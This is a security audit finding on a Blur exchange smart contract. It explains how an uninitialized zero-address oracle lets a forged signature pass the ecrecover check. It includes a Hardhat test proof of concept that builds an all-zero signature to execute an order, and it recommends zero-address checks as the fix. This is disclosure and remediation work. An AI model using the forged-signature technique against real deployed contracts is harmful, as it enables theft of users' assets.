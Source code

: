 # Uninitialized oracle allows to bypass the oracle signature check

## Impact

An uninitialized oracle address with the zero address may allow an attacker to bypass the oracle signature check and submit any block number to match an order that opt-ins to the oracle signature feature. 

This happens because `ecrecover` returns `address(0)` if the signature is invalid, which is then checked successfully against the uninitialized address, effectively bypassing the oracle authorization.

While the `setOracle` function guards against the zero address, the constructor (initializer) does not.

## POC

Basically all the attacker needs to do is to generate an invalid signature that would make `ecrecover` return `0` which will match the uninitialized address of the oracle. 

Here's a test that reproduces the issue (also available in this gist https://gist.github.com/romeroadrian/90f186cffb90b604ff5358cbfafa60b7):

```
import hre, { ethers } from 'hardhat';
import { BigNumber } from 'ethers';

import { SetupExchangeOpts, SetupExchangeResult } from './exchange';
import { eth, setupTest, Side } from './exchange';
import { deployFull } from '../scripts/deploy';
import { waitForTx } from '../scripts/web3-utils';

async function setupUninitializedOracleExchange({
  weth,
}: SetupExchangeOpts): Promise<SetupExchangeResult> {
  return deployFull(hre, 'TestBlurExchange', 1, weth.address, hre.ethers.constants.AddressZero);
}

describe('uninitialized oracle', () => {
  const price: BigNumber = eth('1');
  const feeRate = 300;

  it('allows any signature', async () => {
    const { exchange, alice, bob, generateOrder } = await setupTest({
      price,
      feeRate,
      setupExchange: setupUninitializedOracleExchange,
    });

    const amount = 10;

    // Alice creates a sell order and opt-ins to the oracle feature by setting the expiration time to 0
    const aliceOrder = generateOrder(alice, {
      side: Side.Sell,
      amount,
      expirationTime: '0',
      fees: [],
    });

    // Bob creates a buy order and submits alice's order with a forged signature for the oracle
    // which would allow him to arbitrarily assign a block number to the input order
    const bobOrder = generateOrder(bob, {
      side: Side.Buy,
      amount,
      expirationTime: ethers.constants.MaxUint256,
      fees: [],
    });
    const buyInput = await bobOrder.pack();

    const sellInput = await aliceOrder.pack();
    // 0x0.....1c0000000.....000000
    sellInput.extraSignature = `0x${Array(62).fill('0').join('')}1c${Array(64).fill('0').join('')}${Array(64).fill('0').join('')}`;

    await waitForTx(exchange.execute(sellInput, buyInput));
  });
});
```

## Recommendation

1. Check for the zero address in the initializer of the contract, or
2. Guard against the zero address in the `_recover` function after the call to `ecrecover`, for example:

```
/**
  * @dev Wrapped ecrecover with safety check for v parameter
  * @param v v
  * @param r r
  * @param s s
  */
function _recover(
    bytes32 digest,
    uint8 v,
    bytes32 r,
    bytes32 s
) internal pure returns (address) {
    require(v == 27 || v == 28, "Invalid v parameter");
    address result = ecrecover(digest, v, r, s);
    require(result != address(0), "Invalid signature");
    return result;
}
```
